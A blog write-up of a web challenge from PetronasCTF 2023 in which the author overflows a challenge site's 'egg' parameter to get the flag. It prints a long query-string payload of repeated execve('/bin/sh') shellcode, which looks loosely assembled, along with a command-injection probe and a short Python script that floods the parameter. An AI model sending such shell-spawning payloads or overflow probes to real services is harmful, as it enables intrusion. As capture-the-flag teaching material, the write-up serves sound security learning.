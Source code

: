 ```yaml
---
title: 'PetronasCTF2023 Web Challenge: Henny Peony Got Hit on the Head; with an egg!'
date: 2023-10-11 00:35:22
author: w0rmhol3
categories: Write-Up
tags: Web CTF
cover: https://github.com/w0rmhol3/w0rmhol3-Blog/blob/main/source/_img/PetronasCTF/Challenge6/egg.jpg?raw=true
---
```

Petronas CTF 2023 is a local CTF organized by Petroliam Nasional Berhad Malaysia. The CTF was held on 9th and 10th October 2023, in Kuala Lumpur Convention Center for 2 days with an elimination round and a top 25 final round. The challenges were quite interesting and majority are great quality challenge. In this web challenge, a featureless website was provided. <!--more-->

![Website](https://github.com/w0rmhol3/w0rmhol3-Blog/blob/main/source/_img/PetronasCTF/Challenge6/Website.png?raw=true)


As you can see there's literally nothing but a string `You are not near the egg yet`.

![Source](https://github.com/w0rmhol3/w0rmhol3-Blog/blob/main/source/_img/PetronasCTF/Challenge6/Source.png?raw=true)


I had even try to see if there's anything to be revealed within the source code but there's nothing at all. I had tried to execute command injection within the url by going through different parameters in such as `https://petronasgraduate-quantum.chals.io/?command=(ls)` and had tried going through XSS, SSTI, Header manipulation and other possible exploitation. In the end, the solution found to exploit this website is to run command injection and overflow it. 

Through the challenge a hint stating that `"is it possible to overflow the egg?"` (or similar context). So from the clue, I had found related buffer overflow technique called `Egg Hunter`. From that reference that related to the theme of the challenge. So one of the method I found is to try to overflow it through the URL side by pasting a bunch of payload onto the injection: 

```sh
https://petronasgraduate-quantum.chals.io/?egg=\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05
```

^The injection used

![Solution](https://github.com/w0rmhol3/w0rmhol3-Blog/blob/main/source/_img/PetronasCTF/Challenge6/Solution.png?raw=true)


This solution was not done during the competition and was only found that it works after the competition had ended.

The solution done during the competition was through scripting:

```sh
import requests as request

def overflow(n):
    url = "https://petronasgraduate-quantum.chals.io/?egg={}".format("A"*n)
    r = request.get(url)
    print(r.text)
```

^Script Used

![Solution2](https://github.com/w0rmhol3/w0rmhol3-Blog/blob/main/source/_img/PetronasCTF/Challenge6/Solution2.png?raw=true)


Then running overflow(6000), I had retrieved the flag by overflowing the system.

Flag: petgrad2023{Quantum_Nexus_0r@c13}
